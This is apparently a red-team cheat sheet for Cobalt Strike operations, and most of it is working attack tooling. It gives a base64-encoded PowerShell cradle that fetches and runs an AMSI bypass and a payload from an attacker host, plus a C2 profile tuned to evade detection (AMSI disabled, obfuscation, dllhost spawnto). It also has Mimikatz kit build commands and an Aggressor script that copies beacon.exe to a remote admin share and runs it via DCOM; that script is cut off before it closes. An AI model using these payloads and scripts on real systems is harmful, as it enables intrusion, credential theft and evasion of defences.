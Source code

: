 ```powershell
```
##### PowerShell Payload (base64)
Windows
`$str = 'IEX(IWR -Uri http://[host]:[port]/bypass -UseBasicParsing);IEX(IWR -Uri http://[host]:[port]/[payload] -UseBasicParsing)'`
`[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))`

Linux
`set str 'IEX(IWR http://[host]/bypass -UseBasicParsing);IEX(IWR http://[host]/[payload] -UseBasicParsing)'`
`echo -en $str | iconv -t UTF-16LE | base64 -w 0`
#### Profile Changes
/home/attacker/cobaltstrike/teamserver/c2-profiles/custom/custom.profile
```
set sleeptime "1";
set tasks_max_size "2097152";

stage {
	set userwx "false";
	set cleanup "true";
	set obfuscate "true";
	set module_x64 "xpsservices.dll";
}

post-ex {
	set amsi_disable "true";
	set spawnto_x64 "C:\\Windows\\System32\\dllhost.exe";
	set spawnto_x86 "C:\\Windows\\SysWOW64\\dllhost.exe";
}
```
## Extending Cobalt Strike
#### Mimikatz Kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz`
`./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`
#### Jump and Remote-Exec
C:\\Tools\\cobaltstrike\\custom\\dcom.cna
```php
sub invoke_dcom
{
	local('$handle $script $oneliner $payload');
	
	# acknowledge this command1
	btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");
	
	# read in the script
	$handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
	$script = readb($handle, -1);
	closef($handle);
	
	# host the script in Beacon
	$oneliner = beacon_host_script($1, $script);
	
	# generate stageless payload
	$payload = artifact_payload($3, "exe", "x64");
	
	# upload to the target
	bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);
	
	# run via powerpick
	bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);
```